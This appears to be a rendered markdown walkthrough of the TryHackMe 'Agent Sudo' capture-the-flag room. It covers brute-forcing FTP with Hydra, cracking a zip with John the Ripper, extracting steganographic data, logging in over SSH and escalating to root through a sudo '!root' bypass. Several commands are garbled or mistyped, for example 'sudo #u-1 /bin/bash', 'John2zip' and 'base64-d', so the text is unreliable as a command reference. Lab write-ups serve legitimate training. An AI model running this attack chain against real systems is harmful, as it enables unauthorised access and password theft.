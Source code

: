 ```yaml
---
layout: page
title: Agent Sudo
premalink: /agentSudo
---
```

# ![front](/images/agentsudo/front.png)
[https://tryhackme.com/room/agentsudoctf](https://tryhackme.com/room/agentsudoctf)

## Open Ports:
  - 21: ftp
  - 22: ssh
  - 80: HTTP
  
## Port 80:
1. **Index Page**
![1](/images/agentsudo/1.png)
  - we can brute force different Agents
  ```
    >Curl "http://ip" -H "User-Agent: A" -L
    >Curl "http://ip" -H "User-Agent: B" -L
    >Curl "http://ip" -H "User-Agent: C" -L
  ```
![2](/images/agentsudo/2.png)

## Port 21:
1. Brute force ftp using **Hydra**  to find the _password_
  ```
  hydra -l cxxxx -P /rockyou.txt ftp://ip
  ```
![3](/images/agentsudo/3.png)
2. After logging we will find 3 files _(1 txt, 2 imgs)_
  - binwalk the image we find a zip file inside the image
  - As the zip file is password protected we can use **johnTheRipper** to crack it.
    ```
    John2zip 8072.zip > hash.txt
    John hash.txt --wordlist=/rockyou.tx
    ```
![4](/images/agentsudo/4.png)
 3. Now we find a text file for Agent R
  - It has the passwd in base64
    ```
    echo " " |base64-d (Area51)
    ```
 4. Extracting cute-alien.jpeg file using the password found in **To_AgentR.txt**
    ```
    steghide extract -sf cute-alien.jpeg
    ```
![5](/images/agentsudo/5.png)

   
## Gaining Access:
 **We Found username and password in _message.txt_**
 1. Logging in via ssh
 
### USER Flag:
![user](/images/agentsudo/user.png)
2.Download the image 
  - scp james@ip:/home/james/image.jpeg .
  - Now search in the web (_use google image search_)
 


## Privilege Escalation:
 1. sudo -l
   - [All,!root] /bin/bash
   **To bypass this**
    ```
    sudo #u-1 /bin/bash
    ```
### Root Flag:
![root](/images/agentsudo/root.png)
